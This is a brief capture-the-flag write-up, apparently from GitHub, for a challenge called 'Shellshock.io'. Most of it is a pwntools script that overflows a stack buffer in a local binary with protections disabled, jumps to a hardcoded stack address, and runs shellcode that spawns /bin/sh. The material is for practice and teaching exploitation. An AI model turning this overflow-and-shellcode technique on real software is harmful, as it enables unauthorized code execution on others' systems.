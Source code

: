 # Shellshock.io

Based on the comment given, we can see that stack protection, NX and PIE is off.
Thus, we can overflow the buffer with our own shellcode and spawn a shell to
cat the flag.

## Solve Script

```py
from pwn import *

p = process("./chall")

payload = b"A" * 40
payload += p64(0x7fffffffddc0)
payload += b"\x90" * 15
payload += b"\x48\x31\xd2\x48\x31\xf6\x50\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"

p.recvline()
p.recvuntil(b"> ")

p.sendline(payload)
p.interactive()
```
